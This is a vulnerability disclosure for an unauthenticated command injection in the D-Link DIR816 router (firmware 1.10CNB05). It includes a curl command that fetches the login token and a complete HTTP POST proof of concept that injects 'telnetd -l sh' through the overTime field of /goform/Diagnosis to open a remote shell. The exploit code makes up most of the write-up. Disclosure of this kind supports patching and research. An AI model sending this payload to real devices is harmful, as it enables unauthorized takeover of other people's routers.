


# D-Link Vulnerability

Vendor:D-Link

Product:DIR816

Version:1.10CNB05

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability in D-Link Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.（without authentication）

Gets the token ID.

```
curl http://192.168.1.1/dir_login.asp | grep tokenid
```

**Remote Command Execution**

In `goahead` binary:

In `Diagnosis` function, `overTime、overTime` is directly passed by the attacker, so we can control the `overTime、overTime` to attack the OS.

<div  align="center"></div>


## PoC

We set `overTime` as **`telnetd -l sh`** , and the router will excute it,such as:

```http
POST /goform/Diagnosis HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/d_wizard_step1_start.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

pingAddr=192.168.2.1&doType=0&sendNum=10&pSize=10&overTime=`telnetd -l sh`&trHops=&tokenid=1714636915
```


## Result

Get a shell!

<div  align="center"></div>
